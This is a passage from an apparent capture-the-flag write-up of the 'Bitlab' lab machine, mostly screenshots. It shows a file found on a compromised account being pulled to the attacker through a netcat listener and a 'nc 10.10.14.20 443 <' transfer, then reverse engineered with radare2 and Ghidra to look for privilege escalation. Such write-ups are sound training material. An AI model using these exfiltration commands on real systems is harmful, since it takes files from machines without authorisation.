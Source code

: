 <br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

With this new compromised account I can already access the first flag, but I also find in the same directory an executable file de **32bits** for **Windows** that I immediately transfer it to my machine to analyze it, I must also check its integrity to know if there was not some kind of corruption of the binary. With `radare2` I'm going to **[list the functions](https://github.com/radareorg/radare2/blob/master/doc/intro.md){:target="_blank"}** implemented in the code, but I'm also going to create a new project with **Ghidra** to do some **Reverse Engineering** in search of information or ways to use this file to **Escalate privileges**.

> **Victime Machine**:

```bash
file RemoteConnection.exe
```

> **Attacker Machine**:

```bash
nc -nlvp 443 > RemoteConnection.exe
```

> **Victime Machine**:

```bash
nc 10.10.14.20 443 < RemoteConnection.exe
md5sum RemoteConnection.exe
```

> **Attacker Machine**:

```bash
md5sum RemoteConnection.exe

radare2 RemoteConnection.exe
  aaaa
  afl

ghidraRun
```

<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_53.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_54.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_56.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_57.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_58.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
